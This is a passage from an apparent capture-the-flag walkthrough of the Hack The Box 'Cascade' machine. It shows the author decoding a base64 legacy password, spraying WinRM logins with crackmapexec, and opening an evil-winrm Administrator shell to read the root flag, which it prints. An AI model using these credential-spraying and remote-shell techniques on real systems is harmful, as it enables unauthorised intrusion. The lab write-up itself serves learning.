 ```text
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```

For a deleted account there was sure a lot of information still stored! There were a few other deleted objects, but the additional information included in the `TempAdmin` object gave me everything I needed. There was another base64 encoded **CascLegacyPwd**.

```text
zweilos@kalimaa:~/htb/cascade$ echo YmFDVDNyMWFOMDBkbGVz | base64 -d
baCT3r1aN00dles
```

Decoding the base64 string `YmFDVDNyMWFOMDBkbGVz` gave me the password `baCT3r1aN00dles`.

## **Getting an Administrator shell**

```text
zweilos@kalimaa:~/htb/cascade$ crackmapexec winrm -u users -p passwords -d Cascade 10.10.10.182
WINRM       10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:rY4n5eva "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:sT333ve2 "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [-] Cascade\Administrator:w3lc0meFr31nd "the specified credentials were rejected by the server"
WINRM       10.10.10.182    5985   CASC-DC1         [+] Cascade\Administrator:baCT3r1aN00dles (Pwn3d!)
```

_Pwn3d!_

### **Root.txt**

After getting the password for `TempAdmin`, ****which I had read earlier was the same as the normal Administrator account, I was able to finally login to an Administrator shell and gather up my hard-earned loot.

```text
zweilos@kalimaa:~/htb/cascade$ evil-winrm -u Administrator -p baCT3r1aN00dles -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint


*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/26/2020   8:56 AM             34 root.txt
-a----        3/25/2020  11:17 AM           1031 WinDirStat.lnk


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
c819f64119a10a2aa646d6883796d488
*Evil-WinRM* PS C:\Users\Administrator\Desktop> whoami /all

USER INFORMATION
----------------

```